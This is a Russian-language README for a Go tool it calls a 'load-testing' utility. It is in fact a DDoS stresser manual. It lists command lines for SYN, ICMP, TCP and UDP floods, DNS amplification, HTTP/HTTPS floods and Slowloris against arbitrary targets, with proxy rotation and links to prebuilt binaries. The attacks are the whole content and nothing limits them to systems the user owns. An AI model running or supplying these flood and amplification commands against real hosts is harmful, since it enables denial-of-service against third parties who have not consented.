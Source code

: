 # 🚀 Универсальный инструмент для нагрузочного тестирования (L3/L4/L7)

## 📋 Инструкция по использованию

### 🔧 Требования
- Установленный Go (версии 1.16+)
- Linux/Windows/MacOS
- Dоступ к интернету

### 📥 Установка
```bash
git clone https://github.com/yourrepo/stress-tool.git
cd stress-tool
go build -o stresser
```

### 🛠 Настройка

1. Создайте файл с прокси (если нужно):

```bash
echo "1.1.1.1:8080" > proxies.txt
echo "2.2.2.2:3128" >> proxies.txt
```

### 🎯 Запуск атак

#### 🔥 L3 Атаки (Сетевой уровень)
```bash
# SYN Flood
./stresser target.com:80 SYN 5000 60

# ICMP Flood (требует root)
sudo ./stresser target.com ICMP 3000 120
```

### 🌊 L4 Атаки (Транспортный уровень)

```
# TCP Flood
./stresser target.com:443 TCP 10000 300

# UDP Flood
./stresser target.com:53 UDP 8000 180

# DNS Amplification
./stresser dns-server.com DNS 5000 60
```

### 💻 L7 Атаки (Прикладной уровень)

```
# HTTP Flood
./stresser http://target.com HTTP 20000 600

# HTTPS Flood
./stresser https://target.com HTTPS 15000 300

# Slowloris
./stresser target.com:80 SLOWLORIS 500 3600
```

### 📊 Параметры запуска

```text
./stresser <цель> <тип атаки> <количество потоков> <время в секундах> [размер пакета]

Пример:
./stresser example.com:80 TCP 10000 60 1024
```

### 🧰 Дополнительные функции
```
1. **Автоповтор** - автоматически переподключается при обрывах
2. **Ротация прокси** - если указан файл proxies.txt
3. **Статистика в реальном времени** - показывает RPS и успешные запросы
```

## 📦 Releases

Готовые бинарные файлы для Linux, Windows и MacOS доступны на странице [Releases](https://github.com/yourrepo/stress-tool/releases).

- Скачайте нужный архив для вашей платформы
- Распакуйте и запустите бинарник согласно инструкции выше
